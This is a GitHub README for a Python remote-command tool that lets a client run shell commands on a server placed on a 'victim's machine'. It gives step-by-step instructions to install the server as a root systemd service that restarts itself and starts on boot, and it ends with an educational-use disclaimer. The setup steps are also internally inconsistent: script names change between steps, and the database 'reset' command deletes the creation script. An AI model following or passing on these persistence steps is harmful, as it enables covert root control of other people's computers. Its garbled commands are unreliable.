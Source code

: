 ## Requirements

To run this project, you will need the following:

Python 3.x installed on both the server and client machines.

SQLite3 (included with Python).

Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

 Windows: `python createDb.py` Linux/Mac: `python3 createDb.py`


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

`client_socket.connect(('192.168.169.117', 12345)) #Example`


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

`python3 create_db.py`

You can delete this and create it again to reset the database.

`rm createDb.py`


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

`sudo nano /etc/systemd/system/server.service`


## 3.2: Add the following content to the file
```
[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.
```

## 3.3: Reload the systemd daemon and start the service:
```
sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
```

## Step 4: Running the Client

Run the command `python3 client.py` on your terminal while you are on your projects directory 

-> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

`python3 view_db.py`

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 

## Disclaimer!

This project is created for educational and research purposes only. The intention is to demonstrate and practice concepts related to cybersecurity and ethical hacking in a controlled environment. Unauthorized access to computer systems, networks, or any other form of hacking without explicit permission from the owner is illegal and unethical.

The author of this project does not endorse or condone any illegal activities or misuse of the information provided. Use this knowledge responsibly and only on systems you own or have explicit permission to test.

By using the tools and techniques described in this project, you agree to the following:

You will not use this project or any information within it for any illegal activities or unauthorized access to systems.

You understand the risks and legal implications associated with cybersecurity activities.

You will only perform testing on systems you own or have been granted explicit permission to test.

The author takes no responsibility for any damage caused by the misuse of this project.



